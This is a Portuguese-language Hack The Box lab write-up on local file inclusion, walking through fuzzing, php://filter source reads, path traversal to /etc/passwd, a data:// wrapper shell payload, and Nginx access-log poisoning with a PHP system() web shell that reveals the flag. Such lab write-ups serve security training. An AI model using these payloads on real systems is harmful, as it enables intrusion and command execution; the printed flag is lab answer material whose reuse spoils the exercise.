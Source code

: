 ## 1. Exploração:
Ao entrar no site a primeira coisa que fiz, foi olhar as páginas onde um usuário comum 
poderia acessar, notei que a aba da direita levava até 3 páginas com o diretório 
"index.php?page=.." que costuma ser vulnerável a alguns tipos de ataques, mas além disso, 
a página de contatos tinha algo muito interessante que eu não consegui aproveitar.
Ao digitar sua mensagem na parte do chat, ela iria diretamente para a URL, por 
exemplo ao digitar a mensagem “Bom dia amigos”, retornaríamos ao site principal com a 
seguinte URL: “http://159.65.52.96:31749/index.php?message=Bom+dia+amigos#”
Já tendo duas oportunidades de “exploitar” o site, decidi ir para uma abordagem 
mais agressiva.

## 2. Contatos:
Vendo essa página dos contatos, tentei utilizar um php wrapper, para injetar um código 
malicioso: 
“http://159.65.52.96:31749/index.php?message=
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&
cmd=id”
Infelizmente isso acabou não levando a nada, mas é algo que vale a pena investigar, 
já que pode ser uma outra vulnerabilidade não explorada.

## 3. Primeiros Fuzzes:
Voltando para as páginas “index.php?page=..”, decidi realizar 2 tipos de fuzz, o primeiro 
"index.php?page=FUZZ" utilizando LFI-Jhaddix.txt, não consegui nada de relevante, então 
no segundo "index.php?FUZZ=value" utilizando burp-parameter-names.txt, novamente não 
consegui nada, então deveria pensar em uma nova abordagem.

## 4. Cookies e Wrappers:
Já que minha primeira tentativa de Fuzz não havia dado certo, comecei a procurar novas 
possibilidades, e uma delas seria e modificar os cookies para envenenar os logs, para minha 
decepção não consegui encontrar nenhum cookie vulnerável, por fim tentei verificar se a 
opção "allow_url_include" estava ativada ou desativada, infelizmente o site me devolveu 
um "Invalid Input Detected", logo ou era uma versão mais antiga de php, ou poderia ser o 
Nginx ao invés de Apache2, então tentei usando o mesmo e outras versões antigas do php, 
até a 7.0, infelizmente também não deu em nada.

## 5. Imagens:
Um pouco sem ideias, decidi investigar as imagens do site, para ver se a pasta onde 
estavam localizadas tinha alguma vulnerabilidade, então inspecionei o site, e consegui o 
link para a imagem do grande barco do site, ela dava para uma pasta /images/ que estava 
infelizmente protegida, então não consegui acessá-la.

## 6. Voltando ao Fuzz:
Nesse momento meu arsenal intelectual estava no seu limite, e voltei para o curso do HTB, 
para ver se havia algo que eu tinha deixado passar, então foi quando me lembrei do php 
filter.
Nesse caso, precisaria utilizar outro Fuzz para detectar as entidades .php do site, o 
comando usado foi o seguinte:
http://159.65.52.96:31749/FUZZ.php
Vale ressaltar que a wordlist utilizada foi a small.txt do próprio Kali Linux.
Finalmente tive alguns resultados interessantes, as seguintes palavras bateram:
About Contact Error Index Main
Decidi então utilizar do filtro php para ver se descobria mais coisas com as 5. com o 
seguinte comando:
http://159.65.52.96:31749/index.php?page=index.php
Para minha felicidade, não deu input inválido, então seria possível ir mais a fundo 
com o próximo comando: 
http://159.65.52.96:31749/index.php?page=php://filter/read=convert.base64-
encode/resource=index
A ideia desse comando é pegar o código convertido na base 64, depois usaremos um 
“echo código | base64 –d" para transformar o código em uma página, tentei em todos 
deixando, para meu azar, o index por último. É nele que eu encontrei uma linha muito 
interessante:
```
// echo '<li><a href="ilf_admin/index.php">Admin</a></li>';
```
## 7. Entrando na sala do admin:
Com a linha de código descoberta, coloquei ela no site, no lugar do index da seguinte 
maneira:
http://144.126.206.23:32175/ilf_admin/index.php
Nota, vale ressaltar que a partir de agora estou com outro IP já que a máquina havia 
“despwanada” então tive de resetá-la.
Entrei no site e meus níveis de dopamina subiram muito, está aqui uma vulnerabilidade 
bem perigosa para o site, eu poderia ver o chat entre empregados, log de serviço e log do 
sistema.
De qualquer forma, fui analisar o conteúdo dos logs, no chat havia mensagens, antes de 
cada uma delas havia 2 nomes, um deles que terminava em números, e outro que termina 
com números, mas entre colchetes, seriam eles IDs? Ou até mesmo senhas Hard coded? 
Coloquei isso como uma possibilidade e parti para os outros logs.
Nos outros logs havia muitos links e coisas interessantes, mas decidi não as investigar por 
enquanto, então olhei novamente a estrutura do site:
http://144.126.206.23:32175/ilf_admin/index.php?log=chat.log
Isso mesmo, mais fuzz.

## 8. Fuzz novamente:
Comecei com o primeiro fuzz da seguinte forma:
http://144.126.206.23:32175/ilf_admin/index.php?FUZZ=value
Nesse caso, utilizei o burp-parameter-names.txt, para tentar encontrar novos 
parâmetros que pudessem ser atacados, ou que me dessem uma nova pista, infelizmente 
não descobri nenhum diretório novo, apenas o próprio log.
Então vamos para outro fuzz, dessa vez com o LFI-Jhaddix.txt da seguinte maneira:
http://144.126.206.23:32175/ilf_admin/index.php?log=FUZZ
Havia muitas respostas com o tamanho 2046, então utilizei do –fs 2046 para filtrar 
essas respostas com esse tamanho específico, por fim encontrei coisas mais sólidas, vários 
links com o formato similar a esse:
../../../../../../../etc/passwd
Sem pensar 2 vezes, nem mesmo olhar o resto dos resultados que bateram (estava 
muito animado) fui para o seguinte site:
http://144.126.206.23:32175/ilf_admin/index.php?log=../../../../../../../etc/passwd
E lá encontrei uma página maravilhosa, e pensei que seria o fim, mas não havia 
nenhum sinal de flag lá, mas tirei informações importantes como que o servidor não 
utilizava do Apache2, mas sim do Nginx, informação importante para buscar paramêtros 
novos, além disso havia um:
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
Talvez uma dica caso fosse necessário entrar no site com ssh, utilizei também um 
inspect na página para ver se encontrava algo notável, mas encontrei outro beco sem saída, 
voltei e fiz o Fuzz novamente, para ver se não tinha deixado passar outro diretório, e 
encontrei um:
../../../../../../../../../../../../etc/hosts
Nesse diretório havia informações de ips, e outros elementos que estão fora de meu 
conhecimento por enquanto, sem mais pistas voltei ao HTB para ver se podia ter perdido 
algo novamente.

## 9. Burp e Log Poison:
Era a última esperança, o único que não havia tentado ainda, então seguindo os passos do 
HTB, nota-se que há um arquivo access.log com diretórios diferentes, dependendo se é 
apache ou Nginx, bom, graças a página que acessamos antes, sabemos que é Nginx, então 
utilizando o seguinte diretório chegamos à página dos logs:
144.126.206.23:32175/ilf_admin/index.php?log=var/log/nginx/access.log
Não deu certo, então, tive de colocar vários “../” até que encontrasse o diretório correto:
144.126.206.23:32175/ilf_admin/index.php?log=../../../../../../../var/log/nginx/access.log
Finalmente dentro do access.log, abri o BurpSuite, liguei o intercept e dei refresh na página, 
depois disso, mandei o “proxy” para “Repeater”, e la mudei o User-Agent pra “Veneno” e 
cliquei em send.

## 10. A flag:
Ao checar no response, dava pra ver o “Veneno”, então era possível colocar um script 
malicioso ali e tentar navegar as pastas, logo, no lugar de User-Agent coloquei o seguinte:
<?php system($_GET['cmd']); ?>
E no get, coloquei um comando, &cmd=id (.../access.log&cmd=id), para minha felicidade 
consegui uma resposta boa:
uid=65534(nobody) gid=65534(nobody)
Logo era só uma questão de navegar para encontrar a flag, no exercício fala que ela está na 
pasta root, então fazemos um ls / no lugar do id, dessa maneira nos é revelado o que está 
na pasta root, um txt muito interessante: flag_dacc60f2348d.txt.
Por fim, fazemos agora um cat /flag_dacc60f2348d.txt e conseguimos seu conteúdo, que é 
a flag: a9a892dbc9faf9a014f58e007721835e
11. Conclusões:
O sistema invadido tem várias vulnerabilidades, mas com meu conhecimento consegui 
explorar poucas delas, vale notar a questão do chat dos Contatos, além dos vários números 
e nomes dos usuários que aparecem no Chat Log, uma sugestão clara que poderá remediar 
o problema, seria a necessidade de colocar uma senha para entrar em qualquer link que 
tenha ilf_admin/
